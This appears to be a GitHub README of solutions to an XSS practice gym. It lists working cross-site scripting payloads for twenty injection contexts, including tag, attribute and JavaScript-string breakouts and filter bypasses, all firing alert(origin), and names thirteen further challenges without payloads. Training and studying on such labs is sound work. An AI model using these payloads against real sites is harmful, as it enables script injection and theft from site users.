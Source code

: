 # Brutelogic_XSS_GYM
Soloution of XSS gym



p01: Injection in Title Tag:                                               </title><script>alert(origin)</script>

p02: Injection in Noscript Tag:                                            </noscript><script>alert(origin)</script>

p03: Injection in Style Tag:                                               </style><script>alert(origin)</script>

p04: Filtered Injection Inside Event Handler:                              %26apos;-alert(origin)-%26apose;

p05: Injection in Regular Tags:                                            <script>alert(origin)</script>

p06: Injection in Attribute Value – Double Quote Delimiter                 "><script>alert(origin)</script>

p07: Injection in Attribute Value – Single Quote Delimiter                 %27%20><script>alert(origin)</script>

p08: Filtered Injection in Attribute Value – Double Quote Delimiter        "%20autofocus=true%20onfocus=%27alert(origin)%27

p09: Filtered Injection in Attribute Value – Single Quote Delimiter        %27%20%20autofocus=true%20onfocus=%27alert(origin)

p10: Injection in Textarea Tag                                             </textarea><script>alert(origin)</script>

p11: Injection in Script Tag – Single Quote Delimiter                      </script><script>alert(origin)</script>

p12: Injection in Script Tag – Double Quote Delimiter                      </script><script>alert(origin)</script>

p13: Injection in Javascript Variable – Single Quote Delimiter             1%27;alert(origin);var%20pp=%20%271

p14: Injection in Javascript Variable – Double Quote Delimiter             1";alert(origin);var%20pp=%20"1

p15: Filtered Injection in Javascript Variable – Single Quote Delimiter    1%5c%27;alert(origin);//

p16: Filtered Injection in Javascript Variable – Double Quote Delimiter    1%5c";alert(origin);//

p17: Injection in Script Tag – Backticks Delimiter                         </script><script>alert(origin)</script>

p18: Injection in Javascript Variable – Backticks Delimiter                x`;alert(origin);//

p19: Filtered Injection in Javascript Variable – Backticks Delimiter       x\`;alert(origin);//

p20: Filtered Injection in Javascript Variable – Backticks Delimiter       ${alert(origin)}

p21: Validated Injection in HTTP Reference

p22: Injection in Iframe Tag

p23: Injection in HTTP Header

p24: Filtered Double Injection in Javascript Variable

p25: Injection in Javascript DOM – Document Sink

p26: Injection in Javascript DOM – Location Sink

p27: Injection in Javascript DOM – Execution Sink

p28: Injection in HTML Comments

p29: Filtered Injection in HTML Comments

p30: Filtered Injection in Javascript DOM – Document Sink

p31: Injection in Script Tag With Header

p32: Injection in URL

p33: Injection Bypassing CSP
